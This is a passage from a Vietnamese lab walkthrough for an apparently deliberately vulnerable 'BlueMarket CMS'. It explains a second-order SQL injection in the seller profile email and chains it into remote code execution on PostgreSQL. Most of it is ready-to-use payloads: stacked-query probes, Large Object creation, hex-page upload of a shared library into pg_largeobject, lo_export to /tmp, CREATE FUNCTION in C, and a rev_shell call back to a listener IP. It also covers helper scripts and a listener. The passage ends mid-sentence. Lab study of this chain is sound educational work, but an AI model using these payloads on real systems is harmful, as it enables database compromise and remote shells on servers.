## Hướng 2. PostgreSQL Large Object Extension RCE

### Mô tả bài

BlueMarket CMS có chức năng seller profile:

```text
Route: /profile?id=3
User: lan_store / seller123
Feature: Seller Activity Report
```

Trang profile lấy email của seller từ bảng `users`, sau đó dùng email này để
truy vấn các bài post trong bảng `posts`.

File xử lý:

```text
app/src/Controllers/ProfileController.php
```

Code vulnerable:

```php
$sql = "SELECT title, body, created_at
        FROM posts
        WHERE author_email = '" . $user['email'] . "'
        ORDER BY created_at DESC";
$activity = $activityDb->queryAll($sql);
```

Email được lưu ở request update bằng một query khác:

```php
$email = trim((string) ($_POST['email'] ?? ''));
$description = trim((string) ($_POST['description'] ?? ''));
$db->executeParams(
    'UPDATE users SET email = $1, description = $2 WHERE id = $3',
    [$email, $description, $currentUser['id']]
);
```

Ở vulnerable mode, activity report dùng connection riêng:

```php
$activityDb = new PostgresService('extension');
```

Vì vậy payload sau khi được trigger không chạy bằng role lưu profile, mà chạy
bằng role `extension_user` được cấu hình cho report activity.

Vì `UPDATE` dùng `pg_query_params`, payload chưa chạy ở bước lưu. Nó chỉ trở
thành cú pháp SQL khi `show()` đọc lại `$user['email']` và ghép vào câu
`SELECT` activity ở trên. Đây là lý do Hướng 2 là **second-order SQLi**.

#### Phân tích source và điều kiện cần

Flow trong `ProfileController`:

```text
POST /profile/update
-> update() lưu email vào users bằng pg_query_params()
-> redirect về /profile?id=<id>
GET /profile?id=3
-> show() đọc lại users.email
-> tạo PostgresService('extension') trong vulnerable mode
-> ghép email vào query posts
-> queryAll() gọi pg_query() và thực thi payload đã lưu
```

Có hai điểm cần phân biệt:

```php
// bước lưu: chưa bị SQLi
$db->executeParams(
    'UPDATE users SET email = $1, description = $2 WHERE id = $3',
    [$email, $description, $currentUser['id']]
);

// bước trigger: bị SQLi
$activityDb = new PostgresService('extension');
$sql = "SELECT title, body, created_at
        FROM posts
        WHERE author_email = '" . $user['email'] . "'
        ORDER BY created_at DESC";
$activity = $activityDb->queryAll($sql);
```

Chain chỉ thực hiện được khi các điều kiện sau cùng đúng:

```text
1. Người dùng đăng nhập và có quyền cập nhật profile của chính mình.
2. APP_MODE=vulnerable để activity dùng string concatenation.
3. Payload được lưu vào email rồi profile được mở lại để tạo second-order flow.
4. Role extension_user được cấu hình cho activity report.
5. Role có quyền tạo Large Object, ghi pg_largeobject và CREATE FUNCTION C.
6. File .so có đúng ABI PostgreSQL và được upload đủ từng page 2048 byte.
7. Container postgres ghi được file vào /tmp và nạp được shared library.
8. Container postgres kết nối được tới LHOST:LPORT của listener.
```

Nếu chỉ lưu email mà không gọi lại `/profile`, payload chưa được thực thi. Nếu
fixed mode dùng `pg_query_params(... WHERE author_email = $1 ...)`, email chỉ
còn là dữ liệu và toàn bộ chain Large Object bị dừng ngay ở điểm SQLi.

Email được lưu trước vào database và chỉ được dùng lại khi mở profile. Đây là
second-order SQL Injection.

Chain khai thác:

```text
Second-order SQL Injection
-> lo_create()
-> INSERT từng page của pg_rev_shell.so vào pg_largeobject
-> lo_export() ghi file .so ra /tmp
-> CREATE FUNCTION ... LANGUAGE C
-> SELECT rev_shell(LHOST, LPORT)
-> reverse shell dưới quyền postgres
```

### Phân tích và khai thác

Đăng nhập seller:



```text
Username: lan_store
Password: seller123
```

Mở profile seller:



Request cập nhật profile có dạng:



Payload được lưu vào `email` bằng request `POST /profile/update`.
Payload chỉ được thực thi khi gọi lại:

```http
GET /profile?id=3
```

Đầu tiên thử đúng bước nhỏ nhất, chỉ gửi một dấu nháy vào email:

**Source tại bước này:** `update()` chỉ lưu input bằng `pg_query_params()`;
điểm parse xảy ra sau đó trong `show()`, nơi `$user['email']` được ghép vào
`author_email = '...'`. Vì vậy dấu nháy này dùng để kiểm tra second-order
boundary, chưa phải để chạy statement mới.

```sql
x'
```

Khi mở profile, ứng dụng ghép thành:

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x''
ORDER BY created_at DESC
```

Dấu nháy do payload đưa vào chưa tạo được câu SQL hợp lệ với phần query còn
lại. Nếu response trả lỗi PostgreSQL, ta biết email được lưu rồi được đưa vào
SQL ở lần mở profile. Sau đó mới chuyển sang payload có cấu trúc hoàn chỉnh.

#### Kiểm tra second-order SQLi

Payload kiểm tra:

**Source tại bước này:** `ProfileController::show()` lấy email đã lưu vào
`$user['email']`, đặt nó giữa hai dấu nháy của `author_email`, rồi gọi
`$activityDb->queryAll($sql)`. Payload bắt đầu bằng `x'` để đóng đúng chuỗi đó;
`pg_sleep(5)` chỉ là phép đo thời gian, chưa đụng tới Large Object.

```sql
x'; SELECT pg_sleep(5); SELECT title, body, created_at FROM posts WHERE '1'='1
```

**Query thực thi sau khi ứng dụng nối payload:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
SELECT pg_sleep(5);
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

`x'` đóng chuỗi email do ứng dụng mở. Dấu `;` kết thúc câu `SELECT` đầu tiên,
`pg_sleep(5)` tạo tín hiệu thời gian để xác nhận SQLi, còn câu `SELECT` cuối trả
về dữ liệu bình thường. Dấu nháy cuối và `ORDER BY` là phần còn lại do ứng dụng
nối vào sau payload.

Gửi payload vào `email`, sau đó trigger request profile:



Nếu response chậm thêm khoảng 5 giây, payload đã được thực thi.

Chỉ khi xác nhận được second-order SQLi ở bước này mới tiếp tục kiểm tra
database role, quyền Large Object và upload extension.



Mẫu query gốc của activity luôn còn phần `ORDER BY` phía sau payload:

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = '<email>'
ORDER BY created_at DESC
```

Vì vậy các payload trong hướng này dùng chung một phần đuôi:

```sql
SELECT title, body, created_at FROM posts WHERE '1'='1
```

**Vì sao phải thêm câu `SELECT` này?**

Ứng dụng không chạy payload độc lập. Nó ghép payload vào giữa query rồi tự nối
thêm dấu nháy đóng và `ORDER BY`. Ví dụ với payload `SELECT current_user`:

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
SELECT current_user;
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

- `x'` đóng chuỗi email mà source đã mở.
- `SELECT current_user` là statement mình muốn test.
- `SELECT title, body, created_at FROM posts WHERE '1'='1` là câu cuối để nhận
  phần `' ORDER BY created_at DESC` còn lại của source.

Dòng `SELECT` cuối không tạo Large Object hay reverse shell; nó chỉ làm payload
khớp với khung query gốc. Các payload `lo_create`, `INSERT page` và `lo_export`
đều dùng cùng nguyên tắc này.

#### Chuẩn bị extension

Thực hiện trên máy host:

```powershell
cd D:\SQL-lead-to-RCE\blue-market-lab
.\postgres\export-pg-rev-shell.ps1
```



Kết quả cần có:

```text
postgres/artifacts/pg_rev_shell.so
```

Chia file thành các page 2048 byte:

```powershell
python .\postgres\split-so-pages.py
Get-Content .\postgres\artifacts\pg_rev_shell_pages\manifest.txt
```



Manifest hiện tại:

```text
size_bytes=16144
page_size=2048
page_count=8
```

#### Mở Python listener


Mở terminal riêng:

```powershell
cd D:\SQL-lead-to-RCE\blue-market-lab
python .\postgres\rev-shell-listener.py
```

Kết quả mong đợi:

```text
LISTENING on 0.0.0.0:4444
```

Script sẽ chờ kết nối. Sau khi có kết nối, gõ lệnh tại prompt `sh>`:

```text
id
whoami
pwd
hostname
```

#### Tạo Large Object

Trước khi đưa file `.so` vào database, kiểm tra role đang thực thi query:

**Source tại bước này:** activity connection đã được tạo bằng
`new PostgresService('extension')`, nên `SELECT current_user` chạy bằng role
được cấu hình cho report activity. Cần biết role trước khi gọi các hàm nhạy
cảm hơn.

```sql
x'; SELECT current_user; SELECT title, body, created_at FROM posts WHERE '1'='1
```

**Query thực thi sau khi ứng dụng nối payload:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
SELECT current_user;
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

`current_user` cho biết database role đang thực thi câu lệnh. Đây là bước kiểm
tra quyền trước khi thử các hàm Large Object và `CREATE FUNCTION`.

Kết quả mong đợi là role có quyền mở rộng, ví dụ:

```text
extension_user
```

Nếu không nhận được role đúng hoặc request trả lỗi database, dừng tại bước này
và kiểm tra lại session, `APP_MODE` và quyền của database role.



Tiếp theo kiểm tra khả năng tạo và xóa một Large Object tạm thời. Dùng LOID
khác `55001` để không ảnh hưởng đến flow chính:

**Source tại bước này:** vẫn là `queryAll()` trên connection `extension`, còn
PostgreSQL cung cấp `lo_create()` và `lo_unlink()` như các function SQL. Hai
hàm này là phép kiểm tra quyền nhỏ nhất trước khi upload binary.

```sql
x'; SELECT lo_create(55002); SELECT lo_unlink(55002); SELECT title, body, created_at FROM posts WHERE '1'='1
```

**Query thực thi sau khi ứng dụng nối payload:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
SELECT lo_create(55002);
SELECT lo_unlink(55002);
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

Hai hàm ở giữa chỉ tạo rồi xóa một Large Object tạm thời. Nếu profile vẫn tải
bình thường, role hiện tại có thể thực hiện primitive Large Object cần cho demo.

Nếu query chạy thành công, role hiện tại có thể sử dụng Large Object. Khi đó
mới bắt đầu tạo LOID thật để upload file `.so`.

Chọn Large Object ID cố định:

```text
LOID = 55001
```

Payload khởi tạo:

**Source tại bước này:** `pg_query()` thực thi các statement xếp liên tiếp
trong chuỗi `$sql`. Vì `extension_user` có quyền cao, payload có thể dọn
function/LO cũ rồi tạo lại LOID cố định để các request page sau dùng chung.

```sql
x'; DROP FUNCTION IF EXISTS rev_shell(text, integer); SELECT CASE WHEN EXISTS (SELECT 1 FROM pg_largeobject_metadata WHERE oid = 55001::oid) THEN lo_unlink(55001) ELSE 0 END; SELECT lo_create(55001); SELECT title, body, created_at FROM posts WHERE '1'='1
```

Payload này gồm bốn phần:

```text
1. DROP FUNCTION: xóa function cũ nếu demo trước đó đã tạo.
2. lo_unlink: xóa Large Object 55001 nếu nó đang tồn tại.
3. lo_create: tạo Large Object rỗng để nhận các page binary.
4. SELECT cuối: đóng payload hợp lệ với query gốc của ứng dụng.
```

**Query thực thi sau khi ứng dụng nối payload:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
DROP FUNCTION IF EXISTS rev_shell(text, integer);
SELECT CASE WHEN EXISTS (
    SELECT 1 FROM pg_largeobject_metadata WHERE oid = 55001::oid
) THEN lo_unlink(55001) ELSE 0 END;
SELECT lo_create(55001);
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

Lần lượt, payload dọn function cũ, xóa LOID cũ nếu còn, tạo lại LOID `55001`,
rồi chạy câu query cuối để request không bị lỗi cú pháp.

Gửi payload vào `email` bằng `POST /profile/update`, sau đó trigger bằng
`GET /profile?id=3`.

Kiểm tra LOID đã được tạo trước khi upload page:

**Source tại bước này:** `pg_largeobject_metadata` là catalog PostgreSQL mà
query activity có thể đọc. Payload chỉ kiểm tra trạng thái, chưa ghi binary;
chỉ khi trả `true` mới chuyển sang các câu `INSERT` page.

```sql
x'; SELECT EXISTS (SELECT 1 FROM pg_largeobject_metadata WHERE oid = 55001::oid); SELECT title, body, created_at FROM posts WHERE '1'='1
```

**Query thực thi sau khi ứng dụng nối payload:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
SELECT EXISTS (
    SELECT 1 FROM pg_largeobject_metadata WHERE oid = 55001::oid
);
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

Kết quả `t` hoặc `true` xác nhận LOID đã tồn tại. Nếu là `f`, chưa nên upload
page vì các câu `INSERT` tiếp theo sẽ không có Large Object đích.

Kết quả cần đạt là `t` hoặc `true`. Nếu kết quả là `f`, chưa chuyển sang bước
upload page.



#### Upload từng page vào pg_largeobject

Đọc page đầu tiên:

```powershell
Get-Content .\postgres\artifacts\pg_rev_shell_pages\page-000.hex
```

Payload cho page 0:

**Source tại bước này:** source không có API upload `.so`; primitive thực tế là
`INSERT INTO pg_largeobject`. Mỗi request đưa bytes của một page vào bảng hệ
thống, còn `decode(..., 'hex')` chuyển chuỗi hex thành `bytea` ở PostgreSQL.

```sql
x'; INSERT INTO pg_largeobject (loid, pageno, data) VALUES (55001, 0, decode('<HEX_PAGE_000>', 'hex')); SELECT title, body, created_at FROM posts WHERE '1'='1
```

Thay `<HEX_PAGE_000>` bằng toàn bộ nội dung của `page-000.hex`.

**Query thực thi sau khi ứng dụng nối payload:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
INSERT INTO pg_largeobject (loid, pageno, data)
VALUES (55001, 0, decode('<HEX_PAGE_000>', 'hex'));
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

`decode(..., 'hex')` biến chuỗi hex trở lại bytes ở phía PostgreSQL. Page đầu
được ghi vào LOID `55001` với số trang `0`.



Các page còn lại chỉ khác `pageno` và nội dung hex:

```text
page-000.hex -> pageno 0
page-001.hex -> pageno 1
page-002.hex -> pageno 2
page-003.hex -> pageno 3
page-004.hex -> pageno 4
page-005.hex -> pageno 5
page-006.hex -> pageno 6
page-007.hex -> pageno 7
```


Mẫu payload cho mọi page:

```sql
x'; INSERT INTO pg_largeobject (loid, pageno, data) VALUES (55001, <PAGE_NO>, decode('<HEX_PAGE>', 'hex')); SELECT title, body, created_at FROM posts WHERE '1'='1
```

**Source tại bước này:** ứng dụng không có API upload `.so`. Mình lợi dụng cùng
điểm SQLi trong `ProfileController`, còn PostgreSQL tự ghi từng page vào
`pg_largeobject`.

**Query thực thi sau khi thay giá trị page:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
INSERT INTO pg_largeobject (loid, pageno, data)
VALUES (55001, <PAGE_NO>, decode('<HEX_PAGE>', 'hex'));
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

Mỗi request chỉ thay `<PAGE_NO>` và `<HEX_PAGE>`. Mỗi page vẫn dùng đúng flow:

```text
POST /profile/update
GET /profile?id=3
```

Nếu không muốn paste 8 page bằng tay, script helper sẽ tự login, tạo lại LOID
55001, upload page và trigger từng request:

```powershell
python .\postgres\upload-lo-pages.py
```



Kết quả cần đạt:

```text
[+] Uploaded 8 pages into LOID 55001
```

Nếu upload thủ công bằng Burp, có thể kiểm tra số page sau page cuối:

```sql
x'; SELECT COUNT(*) FROM pg_largeobject WHERE loid = 55001; SELECT title, body, created_at FROM posts WHERE '1'='1
```

**Source tại bước này:** sau khi upload thủ công, dùng cùng `queryAll()` để đọc
`COUNT(*)`. Đây là checkpoint dữ liệu, giúp biết LO đã đủ page trước khi gọi
`lo_export()`.

**Query thực thi sau khi ứng dụng nối payload:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
SELECT COUNT(*) FROM pg_largeobject WHERE loid = 55001;
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

Giá trị `COUNT(*)` cho biết có bao nhiêu page đã được ghi vào LOID. Với file
hiện tại, kết quả cần là `8`.

Kết quả cần đạt là `8`. Chỉ sau khi đủ 8 page mới gửi payload export và gọi
function.

#### Export extension và gọi reverse shell

Sau khi upload đủ 8 page, dùng payload cuối. Thay `192.168.1.17` bằng IPv4
thật của máy đang chạy Python listener:

**Source tại bước này:** `lo_export()` đọc Large Object và ghi file trong
container database; `CREATE FUNCTION ... LANGUAGE C` nạp symbol từ file đó;
`SELECT rev_shell(...)` gọi function C. Đây là ba primitive PostgreSQL nối
liền nhau, không phải một lệnh duy nhất của PHP.

```sql
x'; SELECT lo_export(55001, '/tmp/pg_rev_shell_manual.so'); SELECT lo_unlink(55001); CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell_manual', 'rev_shell' LANGUAGE C STRICT; SELECT rev_shell('192.168.1.17', 4444); SELECT title, body, created_at FROM posts WHERE '1'='1
```

**Query thực thi sau khi ứng dụng nối payload:**

```sql
SELECT title, body, created_at
FROM posts
WHERE author_email = 'x';
SELECT lo_export(55001, '/tmp/pg_rev_shell_manual.so');
SELECT lo_unlink(55001);
CREATE FUNCTION rev_shell(text, integer)
RETURNS integer
AS '/tmp/pg_rev_shell_manual', 'rev_shell'
LANGUAGE C STRICT;
SELECT rev_shell('192.168.1.17', 4444);
SELECT title, body, created_at
FROM posts
WHERE '1'='1'
ORDER BY created_at DESC
```

`lo_export` ghép các page thành file `.so` trong container PostgreSQL. Sau đó
`lo_unlink` dọn Large Object, `CREATE FUNCTION` nạp symbol C, và `rev_shell`
kết nối ngược về listener. Câu `SELECT` cuối chỉ giữ cho query gốc còn hợp lệ.

Lưu ý: `lo_export()` ghi file có đuôi `.so`, còn PostgreSQL cho phép
